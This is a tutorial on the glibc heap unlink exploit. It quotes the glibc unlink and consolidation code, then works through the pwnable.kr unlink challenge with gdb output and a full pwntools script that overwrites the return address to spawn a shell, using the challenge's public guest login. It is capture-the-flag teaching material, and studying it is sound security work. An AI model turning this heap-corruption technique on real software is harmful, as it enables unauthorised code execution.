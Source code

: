 # Unlink Exploit

The unlink exploit [Phrack \#57](http://www.phrack.org/issues/57/8.html#article)

In the unlink exploit, the goal is to exploit the following macro:

```c
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");                              \
    FD = P->fd;                                                                      \
    BK = P->bk;                                                                      \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
      malloc_printerr ("corrupted double-linked list");                              \
    else {                                                                      \
        FD->bk = BK;                                                              \
        BK->fd = FD;                                                              \
        if (!in_smallbin_range (chunksize_nomask (P))                              \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {                      \
            if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
              malloc_printerr ("corrupted double-linked list (not small)");   \
            if (FD->fd_nextsize == NULL) {                                      \
                if (P->fd_nextsize == P)                                      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;                      \
                else {                                                              \
                    FD->fd_nextsize = P->fd_nextsize;                              \
                    FD->bk_nextsize = P->bk_nextsize;                              \
                    P->fd_nextsize->bk_nextsize = FD;                              \
                    P->bk_nextsize->fd_nextsize = FD;                              \
                  }                                                              \
              } else {                                                              \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;                      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;                      \
              }                                                                      \
          }                                                                      \
      }                                                                              \
}
```

The unlink macro removes a chunk from a bin.  

```c
FD->bk = BK;                                                              \
BK->fd = FD;
```

#### Consolidate Backwards

glibc likes to keep the heap tidy, as I've been told, so if two adjacent chunks in memory are both free, why not merge them?  This action happens through the previous inuse bit set within a chunk.  If a chunk has it's previous inuse bit set, then it will consolidate them through the following action.

```c
#define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
```

```c
    /* consolidate backward */
    // Is the previous chunk free?
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
       // add previous chunk size to current size
      size += prevsize;
       // move data pointer back to merge both chunks
       // i.e. change chunk pointer to point to current chunk
      p = chunk_at_offset(p, -((long) prevsize));
      // unlink from from the bin
      
      unlink(av, p, bck, fwd);
    }
```

This chunk is then placed within the unsorted chunk list, as it is given a chance to be re-allocated before being placed in a regular bin, but that's not as important to the crux of the exploit.  

## Example 1: pwnable.kr

This used to be much easier to exploit, but due to glibc hardening it's much more difficult.  Firstly, I'll walk through an example from pwnable.kr which will allow us to demonstrate the prior behaviour.  This implements a custom unlink method.  Since this doesn't contain the hardening done by glibc, it makes it much easier to show how this was done originally. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```

We have the stack and heap addresses, so ASLR is no longer an issue.  In this the data being passed into A is not bounds checked, so we need to write a fake chunk into A, and overwrite the fd and bk pointers in B.  

```text
(gdb) r
Starting program: /home/unlink/unlink 
here is stack address leak: 0xffb07fe4
here is heap address leak: 0x91ae410
now that you have leaks, get shell!
```

```text
(gdb) p shell
$2 = {<text variable, no debug info>} 0x80484eb <shell>
```

```text
(gdb) x/20x 0xffb07fe4
0xffb07fe4:	0x091ae410	0x091ae440	0x091ae428	0xf776e3dc
0xffb07ff4:	0xffb08010	0x00000000	0xf75d7637	0xf776e000
0xffb08004:	0xf776e000	0x00000000	0xf75d7637	0x00000001
0xffb08014:	0xffb080a4	0xffb080ac	0x00000000	0x00000000
0xffb08024:	0x00000000	0xf776e000	0xf77a6c04	0xf77a6000
(gdb) info frame
Stack level 0, frame at 0xffb07f08:
 eip = 0xf7780c99 in __kernel_vsyscall; saved eip = 0xf7693443
 called by frame at 0xffb07f10
 Arglist at 0xffb07f00, args: 
 Locals at 0xffb07f00, Previous frame's sp is 0xffb07f08
 Saved registers:
  ecx at 0xffb07f00, edx at 0xffb07efc, ebp at 0xffb07ef8, eip at 0xffb07f04
```

```text
(gdb) p -0xffb07f04+0xffb07fe4
$4 = 224
```

```text
(gdb) x/6x 0x91ae410   <==== A
0x91ae410:	0x091ae428	0x00000000	0x00000000	0x00000000
0x91ae420:	0x00000000	0x00000019
(gdb) x/6x 0x91ae410+4*6 <====== B
0x91ae428:	0x091ae440	0x091ae410	0x00000000	0x00000000
0x91ae438:	0x00000000	0x00000019
```

Since it exits immediately after we're going to want to overwrite eip, which we can calculate from the stack leak.

We only need to do a 4-byte overwrite into the B struct as we'll just overwrite fwd

```text
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;
```

By overwriting fd with EIP:

```text
FD=P->fd;
FD->bk=BK;
```

So we need to write to fill the current allocation plus 4 bytes which will be the address of EIP-4.

```python
from pwn import *
s=ssh(host='pwnable.kr' ,port=2222,  user='unlink', password='guest')

r = s.process('./unlink')
r.recvuntil(' stack address leak: ')
stack = r.recvline()
r.recvuntil(' heap address leak: ')
heap = r.recvline()

print stack
print heap

eip = int(stack, 0) - 0x18

payload = 'A'*8
payload += p32(0x0)
payload += p32(0x19)
payload += p32(eip-4) #fd
payload += p32(0x80484eb) #bk

r.sendafter(' get shell!', payload)
r.interactive()
```

## Modern Hardening Measures



